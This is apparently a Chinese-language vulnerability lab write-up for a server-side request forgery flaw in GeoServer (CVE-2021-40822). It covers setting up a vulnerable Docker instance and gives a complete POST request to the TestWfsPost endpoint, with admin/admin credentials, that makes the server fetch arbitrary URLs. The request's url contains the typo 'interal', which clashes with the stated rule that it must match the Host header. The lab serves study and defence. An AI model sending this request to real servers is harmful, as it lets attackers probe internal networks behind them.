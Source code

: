 # GeoServer SSRF漏洞（CVE-2021-40822）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.19.3、2.18.5和2.17.6版本之前，WMS GetMap请求中存在服务器端请求伪造（SSRF）漏洞。攻击者可以利用此漏洞通过GeoServer服务器向内部或外部服务发送请求。

参考链接：

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-40822>

## 漏洞环境

执行如下命令启动一个GeoServer 2.19.1服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:8080/geoserver`查看到GeoServer的默认页面。

## 漏洞复现

漏洞存在于TestWfsPost接口中。攻击者可以利用`url`参数使服务器向任意URL发送请求。该接口接受以下参数：

- `url`：GeoServer将要发送请求的目标URL
- `body`：要发送的请求体内容。如果此参数为空，GeoServer将发送GET请求；如果包含任何值，则GeoServer将发送POST请求
- `username`：基础认证的用户名（可选）
- `password`：基础认证的密码（可选）

发送如下请求来复现漏洞：

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
```

比如，使用`google.com`作为目标URL，你将看到`google.com`的响应。

![](1.png)

> 注意：`url`参数中的主机名必须与请求中的`Host`头部值相同，否则GeoServer会返回错误。例如，如果`url`参数中的主机名是`internal`，那么请求中的`Host`头部值也必须是`internal`。
